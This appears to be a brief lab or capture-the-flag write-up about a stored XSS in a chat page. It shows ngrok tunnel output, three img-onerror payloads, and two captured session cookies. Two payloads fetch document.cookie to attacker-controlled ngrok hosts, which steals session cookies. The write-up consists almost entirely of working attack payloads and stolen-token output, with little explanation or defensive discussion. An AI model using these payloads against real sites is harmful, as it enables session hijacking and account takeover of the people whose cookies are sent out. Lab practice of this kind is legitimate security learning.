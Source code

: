 ## Observations
from dirbuster scans discovered a chat page which has an XSS
set up listener and forwarded it using ngrok

```bash                                                                                                                                                                                             
🛡️ Protect endpoints w/ IP Intelligence: https://ngrok.com/r/ipintel                                                                                                                           
                                                                                                                                                                                              
Session Status                online                                                                                                                                                          
Account                       sikurititaster@gmail.com (Plan: Free)                                                                                                                           
Version                       3.20.0                                                                                                                                                          
Region                        India (in)                                                                                                                                                      
Latency                       31ms                                                                                                                                                            
Web Interface                 http://127.0.0.1:4040                                                                                                                                           
Forwarding                    https://01d7-171-76-81-219.ngrok-free.app -> http://localhost:8000                                                                                              
                                                                                                                                                                                              
Connections                   ttl     opn     rt1     rt5     p50     p90                                                                                                                     
                              2       0       0.00    0.00    0.01    0.01     

```


## Payloads

```html
<img src=x onerror="alert(document.cookie)">

<img src=x onerror="alert(fetch('https://01d7-171-76-81-219.ngrok-free.app/?cookie='+document.cookie))">

<img src=x onerror="alert(fetch('https://hookworm-next-endlessly.ngrok-free.app?cookie='+document.cookie,{method:'GET',headers:{'ngrok-skip-browser-warning':'noobsek'}}))">



```

## Results

captured:
session=eyJ1c2VyIjp7ImlkIjoxLCJ1c2VybmFtZSI6IlJlbmF0YSJ9fQ.Z7lVVQ.yK04YK78bcD6TvFpqIc4cQAoT8I : Renata
session=eyJ1c2VyIjp7ImlkIjo1LCJ1c2VybmFtZSI6Im5vb2JzZWsxIn19.Z7lRpw.ZuhnyfFsQqhIElyxJvvicW8nK6Y : noobsek